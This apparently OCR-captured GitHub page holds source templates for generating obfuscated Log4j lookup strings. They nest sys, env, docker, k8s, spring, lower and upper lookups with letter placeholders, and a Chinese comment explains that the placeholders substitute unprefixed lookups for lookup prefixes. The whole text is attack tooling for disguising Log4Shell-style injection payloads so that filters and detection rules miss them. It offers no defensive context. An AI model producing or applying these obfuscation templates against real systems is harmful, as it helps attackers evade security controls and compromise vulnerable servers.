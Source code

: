 ```
${{{s_lookup}}{{y_lookup}}{{s_lookup}}:{{random_variable}}:-:}
${{{w_lookup}}{{e_lookup}}{{b_lookup}}:{{random_variable}}:-:}
${{{d_lookup}}{{o_lookup}}{{c_lookup}}{{k_lookup}}{{e_lookup}}{{r_lookup}}:{{random_variable}}:-:}
${{{e_lookup}}{{v_lookup}}{{e_lookup}}{{n_lookup}}{{t_lookup}}:{{random_variable}}:-:}
${{{l_lookup}}{{o_lookup}}{{g_lookup}}{{4_lookup}}{{j_lookup}}:{{random_variable}}:-:}
${{{m_lookup}}{{a_lookup}}{{r_lookup}}{{k_lookup}}{{e_lookup}}{{r_lookup}}:{{random_variable}}:-:}
${{{s_lookup}}{{p_lookup}}{{r_lookup}}{{i_lookup}}{{n_lookup}}{{g_lookup}}:{{random_variable}}:-:}
${{{u_lookup}}{{p_lookup}}{{p_lookup}}{{e_lookup}}{{r_lookup}}::}
${:-:}
${{{random_lookup}}:{{random_variable}}:-:}
```
```
# Unprefixed Lookup template that replaces the Lookup prefix
${{{random_lookup}}:{{random_variable}}:-{{uppercase}}}
${{{random_lookup}}:{{random_variable}}:-{{lowercase}}}
${:-{{uppercase}}}
${:-{{lowercase}}}
${::-{{uppercase}}}
${::-{{lowercase}}}
{{uppercase}}
{{lowercase}}
```
模板中占位符的作用是对可用的Lookups的前缀利用无前缀的Lookups进行等效替换。
```
# Secondary Obfuscated Lowercase Template
{{lowercase}}
${::-{{lowercase}}}
${{{l_lookup}}{{o_lookup}}{{w_lookup}}{{e_lookup}}{{r_lookup}}:{{lowercase}}}
${{{l_lookup}}{{o_lookup}}{{w_lookup}}{{e_lookup}}{{r_lookup}}:{{uppercase}}}
${{{k_lookup}}{{8_lookup}}{{s_lookup}}:{{random_variable}}:-{{lowercase}}}
${{{e_lookup}}{{n_lookup}}{{v_lookup}}:{{random_variable}}:-{{lowercase}}}
${{{c_lookup}}{{t_lookup}}{{x_lookup}}:{{random_variable}}:-{{lowercase}}}
${{{m_lookup}}{{a_lookup}}{{i_lookup}}{{n_lookup}}:{{main_argument_key}}:-{{lowercase}}}
${{{m_lookup}}{{a_lookup}}{{i_lookup}}{{n_lookup}}:{{random_variable}}:-{{lowercase}}}
${{{m_lookup}}{{a_lookup}}{{p_lookup}}:{{random_variable}}:-{{lowercase}}}
${{{s_lookup}}{{d_lookup}}:{{random_variable}}:-{{lowercase}}}
${{{s_lookup}}{{y_lookup}}{{s_lookup}}:{{random_variable}}:-{{lowercase}}}
${{{w_lookup}}{{e_lookup}}{{b_lookup}}:{{random_variable}}:-{{lowercase}}}
${{{d_lookup}}{{o_lookup}}{{c_lookup}}{{k_lookup}}{{e_lookup}}{{r_lookup}}:{{random_variable}}:-{{lowercase}}}
${{{e_lookup}}{{v_lookup}}{{e_lookup}}{{n_lookup}}{{t_lookup}}:{{random_variable}}:-{{lowercase}}}
${{{l_lookup}}{{o_lookup}}{{g_lookup}}{{4_lookup}}{{j_lookup}}:{{random_variable}}:-{{lowercase}}}
${{{m_lookup}}{{a_lookup}}{{r_lookup}}{{k_lookup}}{{e_lookup}}{{r_lookup}}:{{random_variable}}:-{{lowercase}}}
${{{s_lookup}}{{p_lookup}}{{r_lookup}}{{i_lookup}}{{n_lookup}}{{g_lookup}}:{{random_variable}}:-{{lowercase}}}
${:-{{lowercase}}}
${{{random_lookup}}:{{random_variable}}:-{{lowercase}}}
```
```
# Secondary Obfuscated Uppercase Template
{{uppercase}}
${::-{{uppercase}}}
${{{k_lookup}}{{8_lookup}}{{s_lookup}}:{{random_variable}}:-{{uppercase}}}
${{{e_lookup}}{{n_lookup}}{{v_lookup}}:{{random_variable}}:-{{uppercase}}}
${{{c_lookup}}{{t_lookup}}{{x_lookup}}:{{random_variable}}:-{{uppercase}}}
${{{m_lookup}}{{a_lookup}}{{i_lookup}}{{n_lookup}}:{{main_argument_key}}:-{{uppercase}}}
${{{m_lookup}}{{a_lookup}}{{i_lookup}}{{n_lookup}}:{{random_variable}}:-{{uppercase}}}
${{{m_lookup}}{{a_lookup}}{{p_lookup}}:{{random_variable}}:-{{uppercase}}}
${{{s_lookup}}{{d_lookup}}:{{random_variable}}:-{{uppercase}}}
${{{s_lookup}}{{y_lookup}}{{s_lookup}}:{{random_variable}}:-{{uppercase}}}
${{{w_lookup}}{{e_lookup}}{{b_lookup}}:{{random_variable}}:-{{uppercase}}}
${{{d_lookup}}{{o_lookup}}{{c_lookup}}{{k_lookup}}{{e_lookup}}{{r_lookup}}:{{random_variable}}:-{{uppercase}}}
```